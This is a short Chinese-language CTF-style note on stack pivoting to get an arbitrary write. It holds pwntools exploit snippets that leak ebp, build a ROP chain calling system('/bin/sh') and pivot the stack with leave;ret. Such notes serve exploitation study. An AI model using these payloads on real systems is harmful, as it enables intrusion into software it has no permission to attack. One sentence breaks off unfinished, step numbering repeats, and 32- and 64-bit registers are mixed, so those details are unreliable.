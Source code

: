 ## 栈迁移任意地址写
![[Pasted image 20240206140535.png]]


第一步：找到我们的栈迁移的目标地址。
这一步，我们需要通过我们的 `printf` 函数来执行我们的格式化字符串漏洞。也可以考虑通过我们的 vmmap 来进行

```
sa(b'name?\n', b'a'*0x28)
ebp = u32(p.recvuntil(b'\xff')[-4:])
```

第二步：在我们的栈迁移目标地址写入我们的 ROP 链。
```
payload = b'aaaa' + p32(elf.sym['system']) + p32(0) + p32(ebp - 0x28) + b'/bin/sh\x00'
```

第三步，通过我们的栈迁移移动我们的 rbp 和我们的对应执行：
```
payload=payload.ljust(0x28,b'\x00')+p32(ebp-0x38)+p32(leave_ret)
```

其中，我们的 `ebp-0x38` 是我们的

第三步：有些时候我们可能不能成功的获取，这里的原因可能是我们的 rsp 指向的地址不可写，这个时候，我们的可行的操作之一，就是在我们的 `pr6(rdi)` 之前添加若干个我们的 `ret` 指令，从而达到我们的效果。